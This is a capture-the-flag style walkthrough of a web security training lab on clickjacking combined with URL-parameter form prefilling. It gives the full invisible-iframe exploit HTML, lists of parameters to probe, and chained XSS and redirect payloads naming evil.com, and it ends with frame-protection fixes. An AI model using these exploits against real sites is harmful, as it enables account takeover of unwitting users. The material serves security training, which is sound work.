

---

**Difficulty:** 🟢 Apprentice

**Goal:**

- 🔍 Discover email update functionality with URL parameter
- 🖼️ Create invisible iframe overlay
- 📧 Prefill email field via URL parameter
- 🎯 Position decoy over "Update email" button
- 👤 Trick user into changing their email
- 🎉 Complete lab

---

## 🧠 **Concept Recap**

> This lab extends basic clickjacking by exploiting a common feature: **URL parameters that prefill form fields**. When applications accept input values via URL parameters (e.g., `?email=attacker@evil.com`), attackers can craft malicious URLs that prefill forms with attacker-controlled data, then use clickjacking to trick users into submitting those forms.

### 📊 **The Attack Enhancement**

**Basic Clickjacking:**

```
User clicks decoy → Submits existing form
└── Limited to existing form values
```

**Clickjacking + URL Prefilling:**

```r
User clicks decoy → Submits prefilled form with attacker's values
└── Attacker controls the data being submitted!

Attack flow:
1. Load: /my-account?email=attacker@evil.com
2. Email field automatically filled with attacker's email
3. User clicks invisible "Update email" button
4. Email changed to attacker's address
5. Account takeover possible!
```

**Key Insight:**

```r
URL Parameter Injection:
/my-account?email=hacker@evil.com
           ↑ Application reads this parameter
           ↑ Automatically fills email field
           ↑ User just needs to click submit!

Combined with clickjacking:
└── Iframe loads URL with malicious email
    └── Email field prefilled automatically
        └── User clicks through invisible overlay
            └── Form submits with attacker's email
                └── Account compromised!
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 - Access Lab and Explore**

1. 🌐 Click **"Access the lab"**
2. 🔑 Note the exploit server link
3. 🌐 Click **"My account"**
4. 🔐 Log in with: **wiener:peter**

---

### 🔍 **Step 2 - Analyze Email Update Functionality**

**On the account page, observe:**

```r
Account Page:
├── Current email: wiener@normal-user.net
├── Email input field (empty or prefilled)
└── "Update email" button ⭐ (TARGET!)

Email Update Form:
<form id="email-form" action="/my-account/change-email" method="POST">
    <input type="email" name="email" value="">
    <input type="hidden" name="csrf" value="ABC123...">
    <button type="submit">Update email</button>
</form>

Key observations:
✅ Protected by CSRF token
✅ Single-click action (no confirmation)
✅ Email field can be modified
💥 Vulnerable to clickjacking!
```

---

### 🎯 **Step 3 - Test URL Parameter Prefilling**

**In the browser address bar, modify URL:**

```r
Original URL:
https://0a1b2c3d.web-security-academy.net/my-account

Modified URL (add ?email parameter):
https://0a1b2c3d.web-security-academy.net/my-account?email=test@test.com
                                                      ↑ URL parameter
```

**Press Enter and observe:**

```r
Result:
✅ Email field automatically filled with: test@test.com
✅ No user interaction needed
✅ Form ready to submit

This confirms:
└── Application reads email parameter from URL
    └── Automatically populates email field
        └── Perfect for clickjacking exploitation!
```

---

### 🚀 **Step 4 - Go to Exploit Server**

1. 🖱️ Click **"Go to exploit server"**
2. 📝 You'll see the Body field

---

### 🖼️ **Step 5 - Create HTML Template**

**Paste this template into the Body field:**

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 490px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

**IMPORTANT: Replace YOUR-LAB-ID with your actual lab ID!**

---

### 🔧 **Step 6 - Understanding the Exploit**

**Breaking down the attack:**

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com">
           ↑ Target page
                                                              ↑ URL parameter!
                                                              ↑ Prefills email field
```

**What happens when iframe loads:**

```
1. Browser loads: /my-account?email=hacker@attacker-website.com
2. Application reads email parameter
3. Email field automatically filled: hacker@attacker-website.com
4. Form ready with attacker's email
5. User just needs to click "Update email"
6. Clickjacking makes them click it!
```

**CSS explanation:**

```r
iframe {
    opacity: 0.1;    /* 10% visible for testing */
    z-index: 2;      /* On top - captures clicks */
}

div {
    top: 490px;      /* Vertical position */
    left: 80px;      /* Horizontal position */
    z-index: 1;      /* Behind iframe - visible decoy */
}
```

---

### 🎨 **Step 7 - Test and Adjust Positioning**

1. 📝 Click **"Store"** to save
2. 👁️ Click **"View exploit"** to test

**What you should see:**

```r
With opacity: 0.1:
├── Semi-transparent iframe visible
├── Can see email field prefilled with: hacker@attacker-website.com
├── Can see "Update email" button
└── "Test me" text visible underneath
```

**Positioning check:**

```r
Hover over "Test me" text:
└── Cursor should change to pointer
    └── Indicates it's over the "Update email" button
        └── If not aligned, adjust top/left values
```

**Adjustment guide:**

```r
If "Test me" is:
├── Too high → Increase top (e.g., 400px → 420px)
├── Too low → Decrease top (e.g., 400px → 380px)
├── Too far right → Decrease left (e.g., 80px → 70px)
├── Too far left → Increase left (e.g., 80px → 90px)
```

**Common working values:**

```r
div {
    top: 490px;      /* Usually 390-420px */
    left: 80px;      /* Usually 70-90px */
    z-index: 1;
}
```

---

### ⚠️ **Step 8 - Important: Don't Click Yourself!**

**CRITICAL WARNING:**

```
⚠️ DO NOT click "Test me" or "Update email" yourself!

Why?
└── Clicking will change YOUR email to hacker@attacker-website.com
    └── Lab requires victim's email to change, not yours
        └── If you change your own email, you must:
            1. Use a different email for victim
            2. Or restart the lab
```

**Safe testing:**

```
✅ Hover to check alignment (cursor changes)
✅ View source to verify URL parameter
✅ Check opacity is correct
❌ DON'T click the button
❌ DON'T submit the form
```

---

### ✅ **Step 9 - Finalize Exploit**

**Once positioning is correct:**

1. Change opacity to nearly invisible: `opacity: 0.0001`
2. Change text from "Test me" to "Click me"
3. Verify email in URL is `hacker@attacker-website.com`
4. **Store** the exploit

**Final exploit code:**

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 600px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 490px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a1b2c3d4e5f6789.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

---

### 🚀 **Step 10 - Deliver Exploit to Victim**

1. ✅ Verify exploit is stored with opacity: 0.0001
2. 🎯 Click **"Deliver exploit to victim"**
3. ⏳ Wait a few seconds

---

### 🎉 **Step 11 - Lab Completion**

**What happens:**

```r
Victim's browser:
1. Loads exploit page
2. Sees "Click me" text (visible)
3. Iframe loads with ?email=hacker@attacker-website.com
4. Email field prefilled automatically
5. Iframe invisible (opacity: 0.0001)
6. Victim clicks "Click me"
7. Actually clicks "Update email" button
8. Form submits with CSRF token
9. Email changed to: hacker@attacker-website.com
10. Success!
```

**Lab completion:**

```r
System checks:
├── Exploit delivered to victim? ✓
├── Victim clicked overlay? ✓
├── Email update form submitted? ✓
├── Email changed to hacker@attacker-website.com? ✓
└── URL parameter exploitation successful? ✓

Result: LAB SOLVED!
```

**Completion banner:**

```
┌─────────────────────────────────┐
│  ✅ Congratulations!            │
│                                 │
│  You successfully exploited     │
│  clickjacking with URL          │
│  parameter prefilling to        │
│  change the victim's email.     │
│                                 │
│  Lab: Clickjacking with form    │
│       input data prefilled      │
│  Status: SOLVED ✓               │
└─────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and log in with wiener:peter
         ↓
Step 2: Analyze email update functionality
         ↓
Step 3: Test URL parameter: ?email=test@test.com
         (Confirms prefilling works)
         ↓
Step 4: Go to exploit server
         ↓
Step 5: Create HTML with iframe + decoy
         ↓
Step 6: Set iframe src with malicious email parameter:
         /my-account?email=hacker@attacker-website.com
         ↓
Step 7: Set opacity to 0.1 (for testing)
         ↓
Step 8: Adjust top/left to align decoy with button
         ↓
Step 9: Verify alignment (hover test)
         ⚠️ DON'T click yourself!
         ↓
Step 10: Set opacity to 0.0001
         ↓
Step 11: Change text to "Click me"
         ↓
Step 12: Store exploit
         ↓
Step 13: Deliver exploit to victim
         ↓
Step 14: Email changed! Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **URL Parameter Injection**

```js
# ❌ VULNERABLE CODE - Accepts URL Parameters

from flask import Flask, request, render_template

app = Flask(__name__)

@app.route('/my-account')
@login_required
def my_account():
    # Read email from URL parameter
    prefilled_email = request.args.get('email', '')
    
    # Pass to template
    return render_template('account.html', email=prefilled_email)

# Template: account.html
"""
<form action="/my-account/change-email" method="POST">
    <input type="email" name="email" value="{{ email }}">
    <input type="hidden" name="csrf" value="{{ csrf_token }}">
    <button type="submit">Update email</button>
</form>
"""

# Problems:
# ❌ Accepts any email value from URL
# ❌ No warning when prefilled
# ❌ Vulnerable to clickjacking
# ❌ User doesn't realize email is prefilled
```

**The vulnerability chain:**

```
1. Application feature: URL parameters prefill forms
   └── Intended for convenience (e.g., ?email=user@example.com)

2. No frame protection: Page can be embedded in iframe
   └── Missing X-Frame-Options header

3. Combined vulnerability:
   └── Attacker crafts URL with malicious email
       └── Loads in invisible iframe
           └── User clicks, form submits
               └── Email changed to attacker's!
```

---

### **Why This Is More Dangerous Than Basic Clickjacking**

**Basic Clickjacking:**

```
Limitations:
└── Can only trigger actions with existing data
    └── Example: Delete account (no data needed)
        └── Click "Delete" button
            └── Account deleted

Attack scope: Limited to DELETE actions
```

**Clickjacking + URL Parameter Injection:**

```
Enhanced capabilities:
└── Can submit forms with attacker-controlled data
    └── Example: Change email (attacker provides email)
        └── Prefill: ?email=attacker@evil.com
            └── Click "Update email"
                └── Email changed to attacker's!

Attack scope: CREATE and UPDATE actions
```

**Real-world impact:**

```
Possible attacks with URL prefilling:
├── Email change → Account takeover
├── Password reset email change → Account takeover
├── Shipping address change → Intercept deliveries
├── Payment method change → Financial fraud
├── Privacy settings change → Data exposure
└── Notification settings → Miss security alerts
```

---

## 🎯 **Quick Reference**

### **Common URL Parameters to Test**

```
Email fields:
?email=attacker@evil.com

Name fields:
?name=Attacker&firstname=Evil

Address fields:
?address=123+Attacker+St
?city=Hackerville
?zipcode=12345

Payment fields:
?cardnumber=1234567890123456
?cvv=123

Multiple parameters:
?email=attacker@evil.com&name=Hacker&phone=555-0123
```

---

### **Testing URL Parameters**

```
Step 1: Identify form fields
└── View page source
    └── Find input field names

Step 2: Construct test URL
└── Add ? followed by field=value
    └── Example: /my-account?email=test@test.com

Step 3: Load URL and check
└── Is field prefilled? → Vulnerable!
    └── Field empty? → Try different parameter names

Step 4: Test multiple fields
└── ?field1=value1&field2=value2&field3=value3
```

---

### **Common Parameter Names**

```
Email parameters:
├── ?email=
├── ?mail=
├── ?e-mail=
├── ?user_email=
└── ?contact_email=

Name parameters:
├── ?name=
├── ?username=
├── ?fullname=
├── ?first_name=
└── ?lastname=

Address parameters:
├── ?address=
├── ?street=
├── ?city=
├── ?state=
└── ?country=
```

---

## 🔬 **Advanced Exploitation**

### **Multiple Field Prefilling**

```r
<!-- Exploit: Prefill multiple fields -->
<iframe src="target.com/profile?
    email=attacker@evil.com&
    phone=555-HACK&
    address=123+Evil+St&
    city=Hackerville&
    zip=12345">
</iframe>

This prefills:
├── Email: attacker@evil.com
├── Phone: 555-HACK
├── Address: 123 Evil St
├── City: Hackerville
└── ZIP: 12345

Single click updates ALL fields!
```

---

### **URL Encoding for Special Characters**

```r
Special characters must be URL encoded:

Space:
"123 Main St" → "123+Main+St" or "123%20Main%20St"

@:
"user@evil.com" → "user%40evil.com" (but @ usually works)

Symbols:
& → %26
= → %3D
# → %23
? → %3F

Example:
?email=attacker+user@evil.com&name=Mr.+Hacker
```

---

### **Chaining with Other Attacks**

**Clickjacking + XSS:**

```r
<!-- Prefill with XSS payload -->
<iframe src="target.com/profile?
    name=<script>alert(1)</script>&
    bio=">
</iframe>

If application doesn't sanitize:
└── XSS payload stored in profile
    └── Executes when profile viewed
        └── Clickjacking + Stored XSS!
```

**Clickjacking + Open Redirect:**

```r
<!-- Prefill with redirect URL -->
<iframe src="target.com/settings?
    homepage=http://evil.com&
    redirect_url=http://evil.com">
</iframe>

If application uses these URLs:
└── User's homepage set to evil.com
    └── Future visits redirect to attacker
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Frame-Busting Headers**

```python
# ✅ SECURE VERSION - Add frame protection

from flask import Flask, make_response

app = Flask(__name__)

@app.route('/my-account')
@login_required
def my_account():
    response = make_response(render_template('account.html'))
    
    # Prevent framing
    response.headers['X-Frame-Options'] = 'DENY'
    response.headers['Content-Security-Policy'] = "frame-ancestors 'none'"
    
    return response

# Benefits:
# ✅ Page cannot be framed
# ✅ Clickjacking prevented
# ✅ Works even with URL parameters
```

---

### **Fix 2: Validate URL Parameters**

```python
# ✅ SECURE VERSION - Validate and warn

import re

@app.route('/my-account')
@login_required
def my_account():
    prefilled_email = request.args.get('email', '')
    warning = None
    
    # Validate email format if provided
    if prefilled_email:
        if not re.match(r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$', prefilled_email):
            prefilled_email = ''
            warning = "Invalid email format in URL"
        else:
            # Show warning that email was prefilled
            warning = "Email has been prefilled from URL. Please verify."
    
    return render_template('account.html', 
                          email=prefilled_email,
                          warning=warning)

# Benefits:
# ✅ Validates email format
# ✅ Warns user about prefilling
# ✅ User aware of prefilled data
```

---
